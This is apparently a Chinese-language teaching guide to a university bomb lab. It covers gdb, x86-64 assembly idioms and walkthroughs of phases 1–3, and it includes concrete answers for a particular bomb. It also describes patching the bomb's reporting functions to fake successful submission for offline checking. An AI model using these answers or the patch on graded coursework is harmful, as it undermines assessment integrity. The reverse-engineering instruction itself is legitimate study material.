(gdb) break *phase_2+0xd
(gdb) run answers.txt
Breakpoint 1, 0x000055555555759e in phase_2 ()
(gdb) x/6dw $rsp
0x7fffffffe450: 0 1 1 3
0x7fffffffe460: 5 11用 x/6dw 看这 24 个字节，可以印证小端序的排布：第一个整数 0 在最低地址，最后一个整数 11 在最高地址。gdb 中还有两个容易踩的小坑，一是寄存器在汇编里写 %rsi、在 gdb 命令里必须写 $rsi；二是 p 默认以十进制打印；p 0x1fa 输出 506，要看十六进制用 p/x。
⚠ 三处容易看错的地方
第一，x/s 打印字符串时两边的双引号只是 gdb 用来标出边界的，不是字符串内容的一部分；字符串里的转义（如反斜杠加 n）才是真正的特殊字符。第二，break *phase_3+0x29 中的 0x29 是十六进制偏移，不是行号；如果写成十进制 29，断点会落在别处。第三，PIE 程序在 gdb 里每次运行的基址可能不同，所以不要手抄上一次会话的绝对地址；用符号名或 $pc 相关的表达式。
1.4 安全地拆弹#
在拆炸弹时，第一条硬性规则是先在 explode_bomb 上下断点，再运行任何错误输入。具体做法是先用 objdump -t bomb | grep -i -E 'explode|send|driver|submit|notify|init' 找出爆炸和上报相关的函数，确认 explode_bomb 的符号名，再在 gdb 里 break explode_bomb、break send_msg，然后才 run。只要断点被命中，就说明当前输入会被判错，此时立即 kill，不要继续、不要 finish，更不要放它去联网上报。
第二条规则是断网。实验说明写明，每次爆炸都会通知 Autolab 并扣 0.5 分；即使 Lab 已经截止，也不应产生任何上报。最稳妥的做法是在断网环境中运行，例如 Linux 上使用 unshare -rn ./bomb answers.txt，或者在容器里用 --network none 运行。作为对照，本学期的炸弹在断网、未打补丁的原版上会这样退出：
$ ./bomb answers.txt
Initialization error:
Error: DNS is unable to resolve server address
$ echo $?
8这说明原版炸弹根本不会在离线机器上进入关卡。为了核对讲义里的答案，我们制作了一个只改写网络函数的本地副本：init_driver 直接返回 0，send_msg 把“上报成功”的标记置 1，其余字节不变。补丁脚本是 sim/make_local_copy.py，它按偏移改写两个函数并检查原始字节；改完之后在 --network none 的容器和 qemu 用户态模拟下都实际跑通，完整输出在 sim/run-offline-native.txt 与 sim/run-offline-qemu.txt。需要强调的是，这个副本只用于离线复核答案，不能拿去提交；在 xLab 里应当使用原版炸弹和 gdb 断点。
答案文件的格式也值得单独提醒。炸弹逐行读取，每行末尾必须有换行符；最后一行缺少换行时，read_line 会把最后一个有效字符当成换行删掉。写完答案后可以用 cat -A answers.txt 检查，正常时每一行都以 $ 结尾，且不应出现 Windows 换行符 ^M。更稳的做法是在 gdb 里先开着 explode_bomb 断点逐关验证，确认全部通过后再一次性运行 ./bomb answers.txt。
⚠ 爆炸的代价与补救
答案文件末尾缺换行时，read_line 会把最后一行的最后一个字符当成换行删掉，比较就会失败。这类错误完全可以通过“先 cat -A、再开 explode_bomb 断点”避免。另一个常见的意外是忘了先下断点就直接 run 了一个错误答案，程序会立刻爆炸并上报；养成“先 break explode_bomb，再 run”的顺序，可以把这种风险降到最低。
第二部分 方法工具箱#
这一部分把“在汇编里认出 C 结构”拆成九个小节。每一节都配一个新编的小 C 函数，用 gcc 13.3、-Og 在 x86-64 Linux 上编译，再给出 objdump 的汇编；函数里的常数都是新选的，不照搬炸弹某一关的数字，这样读者可以把注意力放在结构上，而不是记忆答案。读这些例子时不必逐条记住指令，关键是形成一种对照：看到什么样的汇编形状，就想到什么样的 C 写法。
2.1 调用约定与栈帧#
x86-64 System V 的整数参数寄存器依次是 %rdi %rsi %rdx %rcx %r8 %r9，返回值放在 %rax（32 位用 %eax）。%rbx %rbp %r12–%r15 由被调用者保存：函数如果要用它们，必须在开头压栈、结束前恢复；其余寄存器（包括参数寄存器和 %r10 %r11）由调用者保存，call 之后可能被改掉。栈向低地址增长，%rsp 指向栈顶。按 System V 调用约定，call 之前 %rsp % 16 = 0；call 压入 8 字节返回地址后，函数刚入口、尚未执行序言时 %rsp % 16 = 8，返回地址在 (%rsp)，第一个栈上传参在入口 %rsp+8。函数如果还要调用别的函数，常用 sub $8,%rsp 把 %rsp 调回 16 的倍数，使下一次 call 前满足对齐要求。
表 6 call 前、入口与序言后的栈位置
| 时刻 | %rsp % 16 | 返回地址与参数的位置 |
|---|---|---|
| call 之前 | 0 | 返回地址尚未压栈 |
| call 压栈后（函数入口） | 8 | 返回地址在 (%rsp)；第一个栈参数在 %rsp+8 |
序言 sub $8,%rsp 之后 | 0 | 返回地址在 %rsp+8，可安全执行下一次 call |
先看一个六个参数加局部数组的函数 mix6。它的返回值是 t + (e - f) - (f + 1)，六个参数都会影响结果：
long mix6(long a, long b, long c, long d, long e, long f) {
long t = a + 2 * b + 3 * c + 4 * d;
long buf[3];
buf[0] = t;
buf[1] = e - f;
buf[2] = f + 1;
return buf[0] + buf[1] - buf[2];
}0000000000000000 <mix6>:
0: lea (%rdi,%rsi,2),%rax
4: lea (%rdx,%rdx,2),%rdx
8: add %rdx,%rax
b: lea (%rax,%rcx,4),%rax
f: mov %rax,-0x28(%rsp)
14: sub %r9,%r8
17: mov %r8,-0x20(%rsp)
1c: add $0x1,%r9
20: mov %r9,-0x18(%rsp)
25: add %r8,%rax
28: sub %r9,%rax
2b: ret这段汇编没有 sub 调整栈指针，直接用 -0x28(%rsp) 等位置做临时存储，因为 mix6 不再调用其他函数，编译器可以使用返回地址以下的“红区”。三个 lea 把乘加合并：第一条算 a + 2b，第二条算 3c，第三条算 +4d；后面的 sub %r9,%r8 与 add $0x1,%r9 分别算出 e-f 和 f+1，最后的 add %r8,%rax 把 e-f 加到 t 上，sub %r9,%rax 再减去 f+1。编译器为 buf 在红区保留了 -0x28、-0x20、-0x18 三个相邻的 8 字节栈槽，写入确实发生了；但返回表达式被优化成直接使用寄存器（rax、r8、r9）计算，没有再逐项从栈槽读回。因此不能说“数组没有分配”，更准确的说法是“栈槽保留下来，部分读取被优化掉”。这正是 -Og 下“源码里是数组、汇编里是寄存器加栈槽”的典型现象。
当参数超过六个时，多出来的参数从右向左压栈。parse_many 调用 sscanf 时有九个参数（字符串、格式串、六个输出地址、一个字符数组），前六个走寄存器，后三个走栈：
int parse_many(const char *s, int *a, int *b, int *c, int *d,
int *e, int *f, char *g) {
return sscanf(s, "%d %d %d %d %d %d %s", a, b, c, d, e, f, g);
}0000000000000021 <parse_many>:
21: sub $0x10,%rsp
25: push 0x20(%rsp)
29: push 0x20(%rsp)
2d: push %r9
2f: mov %r8,%r9
32: mov %rcx,%r8
35: mov %rdx,%rcx
38: mov %rsi,%rdx
3b: mov $0x0,%esi
40: mov $0x0,%eax
45: call 4a <parse_many+0x29>
4a: add $0x28,%rsp
4e: ret这段代码看着绕，其实是编译器在重新安排参数寄存器：调用 sscanf 时，%rdi 必须是字符串、%rsi 是格式串、%rdx %rcx %r8 %r9 是前四个输出地址，剩下的 e、f、g 依次压栈。设 parse_many 入口的 %rsp 为 S，则 f、g 分别在 S+8、S+16；sub $0x10 后 %rsp=S-16，第一次 push 0x20(%rsp) 取 (S-16)+0x20=S+16，压的是 g；第二次取 (S-24)+0x20=S+8，压的是 f；最后 push %r9 压的是 e。压栈次序是 g、f、e，调用 sscanf 时栈上从低到高是 e、f、g。中间的 mov 序列把寄存器参数左移，读懂这种“搬参数”的代码，phase 3 的 sscanf 就不难了：三个输出地址分别用 lea 算出来放进寄存器，至于哪个 lea 对应格式串里的哪一项，要看它被放进了哪个参数寄存器，而不是看它在源码中出现的顺序。
表 7 parse_many 压栈时同一个偏移指向的参数
| 动作 | 当时的 %rsp | 0x20(%rsp) 指向 |
|---|---|---|
sub $0x10 后 | S-16 | S+16：g |
| 第一次 push 后 | S-24 | S+8：f |
| 第二次 push 后 | S-32 | (S-32)+0x20=S，但不再按该偏移读取；接着压 %r9（e） |
⚠ 参数个数要靠两边对照
调用方看 call 之前设置了哪些参数寄存器，被调用方看哪些参数寄存器在写入之前就被读取——后者更可靠。常见错误是把 sscanf 的三个输出地址对应错，根源就是按源码顺序去猜，而没有逐条追 lea 写进了哪个寄存器。另一个高频错误是把 call sscanf 之后的 cmp $0x2,%eax 当成在检查输入的数，其实它检查的是 sscanf 的返回值，也就是“成功转换了几项”。
2.2 lea、条件传送与 movz/movs#
lea 的正式含义是“把有效地址装入寄存器”，但它不访问内存，只做地址计算，所以编译器经常拿它当计算器用。scale 函数把 x + 8y + 3 压成一条指令：
long scale(long x, long y) {
return x + 8 * y + 3;
}0000000000000000 <scale>:
0: lea 0x3(%rdi,%rsi,8),%rax
5: ret这里的 0x3(%rdi,%rsi,8) 就是 rdi + 8*rsi + 3。lea 的第三个操作数（比例因子）只能是 1、2、4、8，所以它能一次完成“乘 2/4/8 再加偏移”的组合，而且不改变标志位。phase 2 里就有 lea (%rdx,%rcx,2),%edx，那是 edx = rdx + 2*rcx，不是乘法指令。
条件传送 cmov 用来避免分支。imax 和 imin 在 -Og 下都编译成 cmp 加 cmov：
long imax(long a, long b) { return a > b ? a : b; }
long imin(long a, long b) { return a < b ? a : b; }0000000000000000 <imax>:
0: cmp %rdi,%rsi
3: mov %rdi,%rax
6: cmovge %rsi,%rax
a: ret
000000000000000b <imin>:
b: cmp %rdi,%rsi
e: mov %rdi,%rax
11: cmovle %rsi,%rax
15: retAT&T 的 cmp 是“第二个操作数减第一个”，所以 cmp %rdi,%rsi 算的是 rsi - rdi：若 rsi ≥ rdi，cmovge 就把 rsi 搬进 rax，否则保留原来的 rdi。读 cmov 时先确定条件码来自哪条 cmp，再确定“满足条件时搬谁”，两步都不能省。movz 与 movs 处理窄到宽的扩展：movzbl 把 8 位零扩展到 32 位，movsbl 做符号扩展，低字节 0xF4 在两种写法下分别变成 244 和 -12。
000000000000001e <low_byte>:
1e: movzbl %dil,%eax
22: ret
0000000000000023 <sign_extend_byte>:
23: movsbl %dil,%eax
27: ret条件跳转永远是“先算标志，再跳”。cmp 和 test 一般紧挨着 jcc（je/jne/jl/jg/ja/jbe 等），而 ja/jb 是无符号比较、jg/jl 是有符号比较；这一点在做 phase 6 的“1 到 6 的排列检查”时非常关键，因为 (unsigned)(x-1) > 5 一次就能同时排除负数和大于 6 的数。
2.3 循环的常见翻译形式#
-Og 生成的循环最常见的是“先跳到条件判断”的形状：初始化之后紧跟一条 jmp 跳到循环末尾的 cmp，循环体和更新在中间。count_pos 就是这个形状：
int count_pos(const int *a, int n) {
int c = 0;
for (int i = 0; i < n; i++) {
if (a[i] > 0) c++;
}
return c;
}0000000000000000 <count_pos>:
0: mov $0x0,%eax
5: mov $0x0,%ecx
a: jmp 12 <count_pos+0x12>
c: add $0x1,%ecx
f: add $0x1,%eax
12: cmp %esi,%eax
14: jge 21 <count_pos+0x21>
16: movslq %eax,%rdx
19: cmpl $0x0,(%rdi,%rdx,4)
1d: jg c <count_pos+0xc>
1f: jmp f <count_pos+0xf>
21: mov %ecx,%eax
23: reteax 是 i，ecx 是 c。jmp 12 第一次直接跳到条件判断，所以循环变量初始化后先检查 i < n；循环体末尾 add $0x1,%eax 既是更新也重新进入条件判断。条件成立时先 movslq 把 i 符号扩展，再按 4 字节取 a[i]，用 cmp $0x0 和 jg 判断正负。
sum_until_zero 是另一种循环，同样编译成“先跳到条件判断”的形状：初始化后先跳到末尾的 test，循环体在中间，末尾的条件跳回循环体。
int sum_until_zero(const int *a) {
int s = 0, i = 0;
while (a[i] != 0) { s += a[i]; i++; }
return s;
}0000000000000024 <sum_until_zero>:
24: mov $0x0,%eax
29: mov $0x0,%ecx
2e: jmp 35 <sum_until_zero+0x11>
30: add %edx,%ecx
32: add $0x1,%eax
35: movslq %eax,%rdx
38: mov (%rdi,%rdx,4),%edx
3b: test %edx,%edx
3d: jne 30 <sum_until_zero+0xc>
3f: mov %ecx,%eax
41: ret还有一种常见的形状是“守卫 + do-while”：开头先 cmp 跳走整个循环，循环体至少执行一次，末尾再跳回来。它和上面的 jump-to-middle 只差守卫放在开头还是中间，还原时都建议先写带 goto 的版本，再整理成 for 或 while，具体步骤在 2.9 节。
⚠ 不要把“更新语句”当成循环体
在“先跳到条件判断”的模板里，更新语句（例如 add $0x1,%eax）在地址上排在条件判断前面，但第一次进入循环时会被开头的 jmp 跳过。如果按地址顺序把它读进循环体，循环变量就会多加一次。常见错误是把内层循环结束后的 mov %r12d,%ebp 当成了副本赋值，实际它是 i = i + 1；编译器专门用 %r12 暂存 i+1，正是为了在循环末尾恢复它。
2.4 switch 与跳转表寻址#
case 比较密集时，编译器会生成跳转表，而不是一串 cmp/je。classify 有 8 个连续的 case，编译成：
int classify(int x) {
switch (x) {
case 0: return 11; case 1: return 7;
case 2: return 23; case 3: return 5;
case 4: return 19; case 5: return 3;
case 6: return 17; case 7: return 29;
default: return -1;
}
}0000000000401106 <classify>:
401106: cmp $0x7,%edi
401109: ja 40113e <classify+0x38>
40110b: mov %edi,%edi
40110d: jmp *0x402008(,%rdi,8)
401114: mov $0xb,%eax
401119: ret
40111a: mov $0x17,%eax
40111f: ret
...
40113e: mov $0xffffffff,%eax
401143: ret第一行 cmp $0x7,%edi 加 ja 是范围检查：大于 7（无符号比较）就跳到 default。随后 jmp *0x402008(,%rdi,8) 从地址 0x402008 开始、按 8 字节一项取目标。这个例子用 -no-pie 编译，所以表里存的是绝对地址；用 objdump -s -j .rodata 可以看到表的内容：
Contents of section .rodata:
402000 01000200 00000000 14114000 00000000 ..........@.....
402010 44114000 00000000 1a114000 00000000 D.@.......@.....从 0x402008 开始，前两项是 0x401114 和 0x401144，分别对应 case 0 和 case 1 的代码。PIE 程序的跳转表通常存 4 字节的相对偏移，读法是 movslq (%rdx,%rax,4),%rax; add %rdx,%rax; jmp *%rax：先符号扩展取出偏移，再加上表的基址。phase 3 用的就是这种形式，偏移可能是负数，因为 case 的代码块不一定都排在表后面。
⚠ 表里是偏移，不是 case 编号
跳转表的第 i 项对应“i 的代码在哪里”，不是“第 i 个 case 的编号”。如果表项是相对偏移，还要用 movslq 做符号扩展再加基址；如果直接用 mov 读成无符号数，负偏移就会变成一个巨大的正数。gdb 里可以在 jmp *%rax 上单步，看实际落到哪个地址，这是确认表项含义最快的方法。
2.5 递归#
递归函数在汇编里和普通函数没有本质区别：把参数准备好、call 自己、回来后再用返回值。gcd 是一个短小的例子：
int gcd(int a, int b) {
if (b == 0) return a;
return gcd(b, a % b);
}0000000000000000 <gcd>:
0: mov %edi,%eax
2: test %esi,%esi
4: jne 7 <gcd+0x7>
6: ret
7: sub $0x8,%rsp
b: mov %esi,%edi
d: cltd
e: idiv %esi
10: mov %edx,%esi
12: call 17 <gcd+0x17>
17: add $0x8,%rsp
1b: retb 为 0 时直接返回 a（eax 已经是 edi）；否则先 sub $0x8,%rsp 对齐栈，再用 idiv 求 a % b（余数在 edx），把 (b, a%b) 作为新参数递归调用，最后恢复栈并返回。
2.6 数组、指针与静态地址寻址#
静态常量数组的地址在编译期确定，非 PIE 示例中可以直接用“绝对位移 + 索引”寻址：add 0x0(,%rcx,4),%edx 里的 0 是链接时填入的数组基址（重定位），没有 %rip 参与，所以它不是 RIP 相对寻址。RIP 相对寻址要出现 %rip，例如 phase 1 的 lea 0x1c8c(%rip),%rsi。table_sum 对 8 个 int 求和：
static const int table[8] = {3, 1, 4, 1, 5, 9, 2, 6};
int table_sum(void) {
int s = 0;
for (int i = 0; i < 8; i++) s += table[i];
return s;
}0000000000000000 <table_sum>:
0: mov $0x0,%eax
5: mov $0x0,%edx
a: jmp 19 <table_sum+0x19>
c: movslq %eax,%rcx
f: add 0x0(,%rcx,4),%edx
16: add $0x1,%eax
19: cmp $0x7,%eax
1c: jle c <table_sum+0xc>
1e: mov %edx,%eax
20: ret这里 0x0(,%rcx,4) 没有基址寄存器，因为数组地址在非 PIE 示例中是编译期常量，链接时由重定位补上；调试时可以直接用符号名 table 或 objdump 注释里给出的地址。若程序是 PIE，数组访问通常改成带 %rip 的形式（如 lea 0x0(%rip),%rdx 再加索引），两者不要混为一谈。带指针参数的 stride_sum 则多了一个 %rdi 基址，并且下标每次加 2：
long stride_sum(const long *p, int n) {
long s = 0;
for (int i = 0; i < n; i += 2) s += p[i];
return s;
}0000000000000021 <stride_sum>:
21: mov $0x0,%eax
26: mov $0x0,%edx
2b: jmp 37 <stride_sum+0x16>
2d: movslq %eax,%rcx
30: add (%rdi,%rcx,8),%rdx
34: add $0x2,%eax
37: cmp %esi,%eax
39: jl 2d <stride_sum+0xc>
3b: mov %rdx,%rax
3e: ret数组和指针在汇编里都变成“基址 + 下标 × 元素大小”的寻址。phase 2 的六个 int 用 4 字节比例，phase 5 的数组也是 4 字节，phase 6 的节点指针数组用 8 字节；只要看清 movslq 后面跟着的 (,%r?,4) 还是 8，就能判断元素类型。
2.7 链表的遍历#
链表的节点在 C 里通常是“值 + next 指针”，编译器把它变成一个固定偏移的 mov。list_sum 遍历一个节点结构，把 value 累加：
struct node { long value; struct node *next; };
long list_sum(struct node *p) {
long s = 0;
while (p != 0) { s += p->value; p = p->next; }
return s;
}0000000000000000 <list_sum>:
0: mov $0x0,%eax
5: jmp e <list_sum+0xe>
7: add (%rdi),%rax
a: mov 0x8(%rdi),%rdi
e: test %rdi,%rdi
11: jne 7 <list_sum+0x7>
13: ret偏移 0 是 value，偏移 8 是 next。循环同样是“先跳到条件判断”的形状：开头先检查指针是否为空，循环体执行 add 和 mov，末尾再跳回判断。phase 6 的链表中 value 是 int、next 在偏移 8，id 在偏移 4；判断当前 value 时用 mov (%rbx),%eax 只读 4 字节，而不是 mov (%rbx),%rax 读 8 字节，这个宽度差异很容易被忽略。
⚠ 结构体的偏移不是按字段顺序“0、4、8”想当然
本例的 long value 占 8 字节，所以 next 在 8；如果 value 是 int、后面又有一个 int id，next 仍在 8，但 id 在 4。判断偏移时要么看符号与反汇编，要么用 objdump -s -j .data 看实际字节；不要凭 C 源码的字段个数去推。phase 6 的节点正好是“int value、int id、node *next”这一种，16 字节一个节点。
2.8 二叉树#
二叉树节点是“key + left + right”，左右孩子分别在偏移 8 和 16。tree_sum 递归求和：
struct tnode { long key; struct tnode *left; struct tnode *right; };
long tree_sum(struct tnode *p) {
if (p == 0) return 0;
return p->key + tree_sum(p->left) + tree_sum(p->right);
}0000000000000000 <tree_sum>:
0: test %rdi,%rdi
3: je 30 <tree_sum+0x30>
5: push %rbp
6: push %rbx
7: sub $0x8,%rsp
b: mov %rdi,%rbx
e: mov (%rdi),%rbp
11: mov 0x8(%rdi),%rdi
15: call 1a <tree_sum+0x1a>
1a: add %rax,%rbp
1d: mov 0x10(%rbx),%rdi
21: call 26 <tree_sum+0x26>
26: add %rbp,%rax
29: add $0x8,%rsp
2d: pop %rbx
2e: pop %rbp
2f: ret
30: mov $0x0,%eax
35: ret二叉搜索树的查找可以写成循环。tree_find 在 p->key 与目标比较之后，小于目标走右孩子、大于目标走左孩子：
struct tnode *tree_find(struct tnode *p, long key) {
while (p != 0) {
if (key == p->key) return p;
if (key < p->key) p = p->left;
else p = p->right;
}
return 0;
}0000000000000036 <tree_find>:
36: mov %rdi,%rax
39: jmp 3f <tree_find+0x9>
3b: mov 0x10(%rax),%rax
3f: test %rax,%rax
42: je 54 <tree_find+0x1e>
44: mov (%rax),%rdx
47: cmp %rsi,%rdx
4a: je 54 <tree_find+0x1e>
4c: jle 3b <tree_find+0x5>
4e: mov 0x8(%rax),%rax
52: jmp 3f <tree_find+0x9>
54: retcmp %rsi,%rdx 比较的是 rdx - rsi，也就是 p->key - key；jle 表示 p->key ≤ key，此时去右孩子（0x10），否则去左孩子（0x8）。隐藏关常见的 fun7 就是一个“沿树走并累加/翻倍”的递归函数，套路和这两段完全一样：先看节点为空的返回值，再看左右孩子的偏移，最后看累加发生在递归之前还是之后。
2.9 把汇编还原成 C 的三步法#
面对一长段汇编，直接从“这看起来像个 for 循环”开始猜，通常会被编译器打乱顺序的跳转绕晕。比较稳的做法分三步。第一步是列寄存器表：把每个寄存器在这一段里的角色写下来，例如 ebp = i、ebx = j、r12d = i+1、rdx = 当前节点，并标出它在哪些地址被写、哪些地址被读。第二步是逐地址翻译成带 goto 的 C：每个跳转目标起一个标签，按地址顺序一行一行翻译，只翻译、不整理结构；遇到条件跳转就写成 if (...) goto L;。第三步才是认结构：找“往回跳”的跳转，把初始化、条件、循环体、更新四部分填进去，再改写成 for/while；找“跳过一段代码”的跳转，把它整理成 if/else。
以 sum_until_zero 为例，第二步得到的 goto 版本大致是：eax = 0；ecx = 0；goto L35；L30: ecx += edx；eax += 1；L35: rdx = eax；edx = a[rdx]；if (edx != 0) goto L30；return ecx。第三步看到 L30 到 L35 之间是循环体、L35 的条件跳回 L30，就能整理成 while。这个“先 goto 再结构”的顺序，比一步到位可靠得多；phase 6 的三个嵌套循环都适合这样处理。
常见问题：为什么编译器生成的汇编和源码顺序对不上？
因为 -Og 也会做基本的优化：它可以把循环条件挪到末尾、把判断提到前面、把多个表达式合并成 lea、把局部变量放进红区甚至完全删掉。还原的目标不是“恢复源码的每一行”，而是“恢复出行为等价的 C”。只要输入相同、输出相同、边界条件相同，函数名和局部变量名都不重要；考试时写出简洁正确的等价 C 即可。
第三部分 逐关详解#
从这一部分开始，每一关都按同样的顺序讲：先用一句话说明题目的要求，再从 objdump 的输出里截取关键汇编（为排版省略了机器码列；节选，省略处用 ... 标出，保留的每一行都与二进制逐字一致），然后还原成等价的 C，推出满足条件的输入，最后给出离线运行的结果和一个同类变体。六个 phase 和隐藏关的答案都汇总在第六部分的速查表里。
3.1 phase 1：字符串比较#
phase 1 要求输入一行字符串，内容必须与程序里保存的常量串完全一致。它的汇编只有短短几行，是理解“参数怎么传进函数”的最好入口：
0000000000001571 <phase_1>:
1571: sub $0x8,%rsp
1575: lea 0x1c8c(%rip),%rsi # 3208 <_IO_stdin_used+0x208>
157c: call 1ae5 <strings_not_equal>
1581: test %eax,%eax
1583: jne 158a <phase_1+0x19>
1585: add $0x8,%rsp
1589: ret
158a: call 1d44 <explode_bomb>
...void phase_1(char *input)
{
if (strings_not_equal(input, "Is there really APTX4869 in the world?"))
explode_bomb();
}调用 strings_not_equal 时，%rdi 是 read_line 传进来的输入行，%rsi 由 lea 0x1c8c(%rip) 算出，指向只读数据段里的常量串。strings_not_equal 返回 0 表示两个串相等；test %eax,%eax 后接 jne explode，所以返回非 0（不相等）就爆炸，返回 0 才正常返回。常量串的地址在 objdump 注释里已经标出：0x3208。
strings_not_equal 本身的逻辑是“先比长度，再逐字符比”，与 C 库的 strcmp 类似但不完全相同：
0000000000001ae5 <strings_not_equal>:
1ae5: push %r12
...
1ae9: mov %rdi,%rbx
...
1aef: call 1ad1 <string_length>
...
1af7: mov %rbp,%rdi
1afa: call 1ad1 <string_length>
1aff: cmp %eax,%r12d
1b02: je 1b16 <strings_not_equal+0x31>
1b04: mov $0x1,%eax
...
1b0e: add $0x1,%rbx
...
1b16: movzbl (%rbx),%eax
1b19: test %al,%al
...
1b20: je 1b0e <strings_not_equal+0x29>
...
1b29: mov $0x0,%eax
...把它翻译成 C 就是：两个串长度不同返回 1；长度相同则逐字符比较，遇到不同的字符返回 1；走到第一个串的结尾（NUL）时返回 0。注意返回值只有 0 和 1 两种，不是 strcmp 返回的差值。用 gdb 断在 strings_not_equal 上，可以同时看到输入串和常量串（第 1.3 节已经给过这段会话）：
(gdb) x/s $rdi
0x55555555c620 <input_strings>: "Is there really APTX4869 in the world?"
(gdb) x/s $rsi
0x555555559208: "Is there really APTX4869 in the world?"所以 phase 1 的答案就是这一整行：Is there really APTX4869 in the world?。它包含空格和问号，末尾没有感叹号；输入时一个字符都不能改；在答案文件里也不要把两边的引号写进去。
⚠ phase 1 最容易错在“看不见的字符”
这一关的答案本身没有难度，出问题几乎都是格式：答案文件的最后一行缺换行，导致问号被 read_line 当作换行删掉；或者从 gdb 的 x/s 输出里把双引号一起复制进了文件。比较时区分大小写，句中的空格也必须完全一致。稳妥的做法是先用 cat -A 确认行尾，再在 gdb 里开着 explode_bomb 断点运行。
同类变体
变体可能换掉常量串、改用 strcmp、或把比较方向反过来；读法仍是先找常量串地址，再看 jne/je 的方向，输入时注意大小写和空格。
3.2 phase 2：六个数的递推关系#
phase 2 要求输入六个整数，程序先把它们读进栈上的数组，再检查前两个是否为 0 和 1，最后用循环逐项验证递推关系：
0000000000001591 <phase_2>:
1591: push %rbx
1592: sub $0x20,%rsp
1596: mov %rsp,%rsi
1599: call 1daf <read_six_numbers>
159e: cmpl $0x0,(%rsp)
15a2: jne 15ab <phase_2+0x1a>
15a4: cmpl $0x1,0x4(%rsp)
15a9: je 15b0 <phase_2+0x1f>
...
15b0: mov $0x2,%ebx
15b5: jmp 15ba <phase_2+0x29>
15b7: add $0x1,%ebx
15ba: cmp $0x5,%ebx
15bd: jg 15e3 <phase_2+0x52>
15bf: movslq %ebx,%rax
15c2: lea -0x2(%rbx),%edx
15c5: movslq %edx,%rdx
15c8: mov (%rsp,%rdx,4),%ecx
15cb: lea -0x1(%rbx),%edx
15ce: movslq %edx,%rdx
15d1: mov (%rsp,%rdx,4),%edx
15d4: lea (%rdx,%rcx,2),%edx
15d7: cmp %edx,(%rsp,%rax,4)
15da: je 15b7 <phase_2+0x26>
...read_six_numbers 把输入行交给 sscanf，格式串是 %d %d %d %d %d %d，六个输出地址依次是 rsi+0、rsi+4、rsi+8、rsi+0xc、rsi+0x10、rsi+0x14。其中第四个和第五个参数（偏移 0xc 和 0x10）分别放在 %r9 和栈上，第六个（偏移 0x14）也在栈上；sscanf 的返回值必须大于 5，否则说明没有读满六个数。main 每关读一行，read_six_numbers 能工作，靠的就是 int 参数在栈上连续排列。
把 phase_2 的循环翻译成 C，ebx 是 i，循环从 2 到 5。movslq %ebx,%rax 把 i 扩展成 a[i] 的下标；lea -0x2(%rbx),%edx 加两次 movslq 得到 i-2 的下标，取出的值放进 %ecx（a[i-2]）；lea -0x1(%rbx),%edx 同样得到 i-1 的下标，取出的值放进 %edx（a[i-1]）。接着 lea (%rdx,%rcx,2),%edx 算 a[i-1] + 2*a[i-2]，最后用 cmp %edx,(%rsp,%rax,4) 与 a[i] 比较。
void read_six_numbers(char *input, int a[6]);
void phase_2(char *input) {
int a[6], i;
read_six_numbers(input, a);
if (a[0] != 0 || a[1] != 1) explode_bomb();
for (i = 2; i <= 5; i++) {
if (a[i] != a[i-1] + 2 * a[i-2]) explode_bomb();
}
}由 a[0] = 0、a[1] = 1 出发，a[2] = 1 + 2×0 = 1，a[3] = 1 + 2×1 = 3，a[4] = 3 + 2×1 = 5，a[5] = 5 + 2×3 = 11。所以这一关的答案是六个整数 0 1 1 3 5 11。离线副本运行后，phase 2 的提示 “That's number 2. Keep going!” 正常出现。
⚠ lea 在这里是“乘 2 加”，不是取地址
lea (%rdx,%rcx,2),%edx 计算的是 rdx + 2*rcx，是把 a[i-1] 和两倍的 a[i-2] 相加，并不访问内存。这里容易把它误认为“取某个地址”。另一个易错点是下标计算：movslq %ebx,%rax 把 32 位 i 符号扩展到 64 位，后面 (%rsp,%rax,4) 才按 4 字节取元素；少了 movslq，高 32 位可能是垃圾。
还有一处容易看糊涂：mov (%rsp,%rdx,4),%edx 用 %rdx 算地址，又把结果写回 %edx。%rdx、%edx、%dx、%dl 是同一个寄存器的 64、32、16、8 位部分，一条指令总是先读源操作数、再写目的操作数，所以地址用的是旧值 i−1，写进去的是 a[i−1]，此后这个寄存器的含义就变了。写 32 位部分时高 32 位被清零，写 16 位、8 位部分时其余各位保持不变（sim/regpart 实测：先把寄存器置为全 1，再分别写入 5，结果是 0x5、0xffffffffffff0005、0xffffffffffffff05）。
同类变体
变体可能换成等比数列、斐波那契、和差为定值或从末项反推；识别方法不变：从循环里对 a[i-1]、a[i-2] 的访存恢复递推式，再从边界条件逐项算。
3.3 phase 3：sscanf 与跳转表分支#
phase 3 要求输入“整数、字符、整数”三项。程序先用 sscanf 按 %d %c %d 解析，再根据第一个整数的值跳转到不同分支，每个分支检查第二个整数并给出一个字符，最后比较输入的字符与分支给出的字符是否一致：
00000000000015e9 <phase_3>:
15e9: sub $0x18,%rsp
15ed: lea 0x7(%rsp),%rcx
15f2: lea 0xc(%rsp),%rdx
15f7: lea 0x8(%rsp),%r8
15fc: lea 0x1bad(%rip),%rsi # 31b0
...
1608: call 1160 <__isoc99_sscanf@plt>
160d: cmp $0x2,%eax
1610: jle 1631 <phase_3+0x48>
1612: cmpl $0x7,0xc(%rsp)
1617: ja 1732 <phase_3+0x149>
...
1621: lea 0x1cf8(%rip),%rdx # 3320
1628: movslq (%rdx,%rax,4),%rax
162c: add %rdx,%rax
162f: jmp *%rax
...
1638: cmpl $0x37a,0x8(%rsp)
...
1640: jne 164c <phase_3+0x63>
1642: mov $0x6f,%eax
1647: jmp 173c <phase_3+0x153>
...
1732: call 1d44 <explode_bomb>
...
173c: cmp %al,0x7(%rsp)
1740: jne 1747 <phase_3+0x15e>
1742: add $0x18,%rsp
1746: ret
...省略号省去的部分里有两行值得一看：
1631: call 1d44 <explode_bomb>
1636: jmp 1612 <phase_3+0x29>sscanf 读不满三项时跳到 0x1631 引爆，紧接着的 jmp 1612 又跳回检查第一个整数的地方，看上去像一个循环。其实它永远执行不到：explode_bomb 打印信息后调用 exit(8)，不会返回。编译器在编译 phase_3 时不知道这一点，仍按“函数调用之后接着往下走”生成了这条跳转。凡是紧跟在 call explode_bomb 之后的指令，都可以当作不存在。
